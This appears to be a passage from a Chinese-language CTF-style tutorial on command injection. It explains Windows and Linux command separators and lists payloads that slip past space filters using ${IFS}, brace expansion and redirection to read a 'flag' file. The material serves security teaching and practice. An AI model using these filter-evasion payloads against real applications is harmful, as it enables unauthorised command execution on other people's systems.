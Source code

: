 [![cHZeyT.png](https://z3.ax1x.com/2021/04/20/cHZeyT.png)](https://imgtu.com/i/cHZeyT)

``&``前面和后面的命令都要执行，无论前面真假：

[![cHZumF.png](https://z3.ax1x.com/2021/04/20/cHZumF.png)](https://imgtu.com/i/cHZumF)

``&&``如果前面为假，后面的命令也不执行；前为真则执行两条都执行：

[![cHZ1YR.png](https://z3.ax1x.com/2021/04/20/cHZ1YR.png)](https://imgtu.com/i/cHZ1YR)

> ##### Linux系统支持的管道符

``|、||、&、&&``这四种管道符都存在且用法与Windows系统相同，还多了一个``;``管道符，作用和``&``一样。

> #### 空格过滤

> ##### ${IFS}

payload1:

```cmd
root@kali:~# cat flag
this is your flag
root@kali:~# cat${IFS}flag
this is your flag
```

payload2:

```cmd
root@kali:~# cat${IFS}$1flag
this is your flag
```

payload3:

```cmd
root@kali:~# cat$IFS$1flag
this is your flag
```

> ##### ,

payload：

```
root@kali:~# {cat,flag}
this is your flag
```

> ##### 重定向符``<>``

payload1:

```cmd
root@kali:~# cat<>flag
this is your flag
```

payload2:

```cmd
root@kali:~# cat<flag
this is your flag
```
